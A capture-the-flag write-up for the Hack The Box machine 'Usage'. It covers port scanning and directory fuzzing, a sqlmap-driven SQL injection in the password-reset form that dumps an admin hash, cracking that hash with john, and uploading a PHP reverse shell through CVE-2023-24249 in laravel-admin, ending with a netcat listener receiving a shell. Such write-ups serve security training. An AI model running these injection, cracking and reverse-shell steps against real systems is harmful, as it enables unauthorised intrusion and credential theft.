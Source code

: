 ![Usage](https://github.com/amalcew/htb-writeups/assets/73908014/9bba025a-588b-4b7c-b55d-20da0d9cf76c)

## Reconnaissance & port scanning

Let's start with port scanning and some enumeration:

```bash
# Nmap 7.94SVN scan initiated Mon Apr 15 16:56:39 2024 as: nmap -v -sV -sC --open -vvv -oA logs/initial_recon/initial 10.10.11.18
Nmap scan report for 10.10.11.18
Host is up, received syn-ack (0.083s latency).
Scanned at 2024-04-15 16:56:40 CEST for 12s
Not shown: 866 closed tcp ports (conn-refused), 132 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFfdLKVCM7tItpTAWFFy6gTlaOXOkNbeGIN9+NQMn89HkDBG3W3XDQDyM5JAYDlvDpngF58j/WrZkZw0rS6YqS0=
|   256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHr8ATPpxGtqlj8B7z2Lh7GrZVTSsLb6MkU3laICZlTk
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 15 16:56:52 2024 -- 1 IP address (1 host up) scanned in 12.95 seconds
```

```bash
> ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://usage.htb/FUZZ -t 10

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://usage.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login                   [Status: 200, Size: 5141, Words: 2184, Lines: 266, Duration: 865ms]
registration            [Status: 200, Size: 5112, Words: 2108, Lines: 265, Duration: 409ms]
logout                  [Status: 302, Size: 334, Words: 60, Lines: 12, Duration: 321ms]
dashboard               [Status: 302, Size: 334, Words: 60, Lines: 12, Duration: 6089ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Okay, so we got a webpage available at port 80 and ssh listening at standard port. The website welcomes with login prompt:

![01-login_page](https://github.com/amalcew/htb-writeups/assets/73908014/ca6e2d6c-99b2-4475-8545-fb3a09ca89b4)

Besides the registration page, there is also a admin login page:

![03-admin_login](https://github.com/amalcew/htb-writeups/assets/73908014/19d95ed2-bffb-4c76-992f-459d3c98031a)

Testing those login prompts did not return anything useful, so I created a account on the website and was exploring the page for a while.
Interestingly, when checking the password reset form, I've discovered some interesting behavior:

![02-password_reset](https://github.com/amalcew/htb-writeups/assets/73908014/c08f8ff5-b864-4971-8f2e-7704a6bc9a94)

when passing a `'` at the end of the email, the server crashed and returned error 500. This means, that the server somehow understands the input and tries to parse it. The `'` is a start of a string in SQL, which gives small nudge - the server is probably vulnerable to SQLi attacks.

## Initial foothold

### SQL injection

The process of gaining the initial foothold was very painful, as the server was spamming with 504 errors and refreshed cookies often. The way to force the server to leak database contents through SQL injection required using `sqlmap` with Burp Suite request, the process looked like this:

1. Register an account on 
2. After registration, head to password reset page and submit a request with valid email used during registration
3. Intercept a POST request w/ Burp and save it
4. run `sqlmap` using the saved request

This way I was able to iteratively explore the database, gaining more information about it and its contents. Finally, using the below query I've retrieved the admin password hash

```bash
> sqlmap -r resetpass.req -p 'email' --dbms=***** --level=5 --risk=3 --technique=BUT --batch -D ****** -T ****** --dump


        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.3#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:01:53 /2024-04-16/

[21:01:53] [INFO] parsing HTTP request from 'resetpass.req'
[21:01:53] [DEBUG] not a valid WebScarab log data
[21:01:53] [DEBUG] cleaning up configuration parameters
[21:01:53] [DEBUG] setting the HTTP timeout
[21:01:53] [DEBUG] setting the HTTP User-Agent header
[21:01:53] [DEBUG] creating HTTP requests opener object
[21:01:53] [DEBUG] forcing back-end DBMS to user defined value
[21:01:53] [DEBUG] provided parameter 'email' is not inside the Cookie
[21:01:53] [DEBUG] resolving hostname 'usage.htb'
[21:01:53] [INFO] testing connection to the target URL

... SNIP ...

[21:20:42] [DEBUG] got HTTP error code: 500 ('Internal Server Error')
[21:20:42] [INFO] retrieved: admin
[21:20:42] [DEBUG] performed 34 queries in 21.80 seconds
[21:20:42] [DEBUG] analyzing table dump for possible password hashes
Database: *****
Table: *****
[1 entry]
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | password                                                     | username | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | $2y******************************************************rL2 | admin    | 2023-08-13 02:48:26 | 2024-04-16 19:14:16 | kT********************************************************LT |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+

... SNIP ...
```

which can be cracked using `john`:

```bash
> john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*********        (?)    
1g 0:00:00:05 DONE (2024-04-16 22:03) 0.1779g/s 288.2p/s 288.2c/s 288.2C/s maggie1..serena
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Using the password I've been able to log into the admin panel

![04-admin_panel](https://github.com/amalcew/htb-writeups/assets/73908014/92252b1e-08d1-4c2d-92ff-d154b586cb70)

### Arbitrary code execution

Next step on the checklist is to gain access to the server. Admin panel did not have many interesting inputs which could be used to upload reverse shell, as the only one promising was the avatar upload. I conducted research and found out, that this version of `laravel-admin` was vulnerable to [CVE-2023-24249](https://security.snyk.io/vuln/SNYK-PHP-ENCORELARAVELADMIN-3333096), which allowed arbitrary code execution.
The [linked paper](https://flyd.uk/post/cve-2023-24249/) described the POC, which all I had to do is reproduce with correct payload. Using the modified [pentestmonkey's PHP reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell), I've started the process:

The vulnerable input is present at `User setting` page

![05-user_settings](https://github.com/amalcew/htb-writeups/assets/73908014/0fafa359-60ea-4bbc-8bb4-38e928609383)

Using Burp, I've intercepted the POST request of sample avatar and prepared the malicious request, changing the `filename`

![06-burp](https://github.com/amalcew/htb-writeups/assets/73908014/d8c47e7d-8954-4634-bcfb-ef295dd02453)

Refreshing the admin page, we can see that the payload was uploaded to the server:

![07-upload](https://github.com/amalcew/htb-writeups/assets/73908014/6f0e3528-f733-4c89-b403-34c58da03de0)

Now, listening on the selected port, we access the shell itself in the browser or in Burp, which spawns us the connection:

```bash
> nc -lvnp 1234
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.18] 49301
sh: 0: can't access tty; job control turned off
$ id
uid=1000(dash) gid=1000(dash) groups=1000(dash)
```

User flag, as expected, is present in the home directory.

```bash
$ cat /home/dash/user.txt
f2****************************c8
```
